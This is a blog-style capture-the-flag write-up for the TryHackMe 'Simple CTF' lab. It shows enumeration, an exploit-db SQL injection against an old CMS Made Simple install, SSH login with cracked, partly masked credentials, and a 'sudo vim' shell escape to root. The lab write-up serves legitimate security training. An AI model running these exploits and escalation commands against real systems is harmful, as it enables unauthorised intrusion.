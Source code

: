```yaml
---
title: "TryHackMe - Simple CTF"
author: Nasrallah
description: ""
date: 2022-01-27  00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, ftp, sqli, python, crack, sudo]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
  width: 268
  height: 268
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Simple CTF](https://tryhackme.com/room/easyctf) from [TryHackMe](https://tryhackme.com/), an easy machine where we find an outdated CMS, us an exploit for that to get ssh credentials, and finally escalate to root using Vim. If you have any questions please feel free to ask me on any of my [socials](https://nasrallahbaadi.github.io/about).

# **Enumeration**
## nmap

As always, we run a nmap scan:

```terminal
$ sudo nmap -sC -sV -p- 10.10.92.122 | tee scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-27 05:26 EST
Nmap scan report for 10.10.92.122
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 open port:
 - 21 - FTP
 - 80 - HTTP
 - 2222 - SSH

## FTP

From the nmap scan, we see that anonymous FTP login is allowed, so let's take a look:

```terminal
$ ftp 10.10.92.122                                                                                                                                   130 ⨯
Connected to 10.10.92.122.
220 (vsFTPd 3.0.3)
Name (10.10.92.122:sirius): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44846|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |****************************************************************************************************************|   166        1.86 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.64 KiB/s)
ftp>
```

>NOTE: When i tried to list the content, it gave me this "229 Entering Extended Passive Mode (|||44846|)" the way i solved was by typing `ctrl+c` and then the command `passive`.

The file we found is a note indicating that the password is so weak and can be cracked in seconds!

## HTTP

Let's now check the web server and see what's there:

![home](/assets/img/tryhackme/simplectf/home.png)

Nothing interesting, let's run a directory scan using Gobuster:

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.92.122 | tee scans/gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.92.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/27 06:07:56 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.92.122/simple/]

===============================================================
```

We found **/robots.txt** file and **/simple** directory, robots file has nothing useful for us, and we find CMS Made Simple running on the machine, and it is displaying the version of it in the bottom left corner:

![version](/assets/img/tryhackme/simplectf/version.png)

We found that this version of the CMS is vulnerable to SQL injection, here is the [exploit](https://www.exploit-db.com/exploits/46635).

## SQLi

After downloading the exploit, we can launch the attack with the following command:`python <exploit>.py -u http://{target_IP}/simple/ -c -w {path/to/the/wordlist}`


```terminal

[+] Salt for password found: 1daREDACTED6bb2
[+] Username found: m___h
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468REDACTEDc7eb73846e8d96
[+] Password cracked: s_____

```

> Note: I have masked the the data above, but if you run the exploit, you will get the username and the password.


# **Foothold**

Now that we have a username and password, we can try to connect to SSH

`ssh -p 2222 username@{target_IP}`

```terminal
$ ssh -p 2222 m____@10.10.92.122
m____@10.10.92.122's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Thu Jan 27 13:58:57 2022 from 10.11.31.131
$ ls
user.txt
```

Great, we got access to the machine via SSH, let's do some enumeration to see what can we find:

```terminal
$ sudo -l
User m___h may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```


# **Privilege Escalation**

With our current user, we can run `vim` as root, this is great, if we go to [GTFPBins](https://gtfobins.github.io/) we can see that there is a way to escalate our privileges to root using this command: `sudo vim -c ':!/bin/bash'` , so let's do it:

```terminal
$ sudo vim -c ':!/bin/bash'

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~# ls /root
root.txt
```

And just like that, we got root on the machine.

I hope you guys have enjoyed this machine, see you in the next hack.
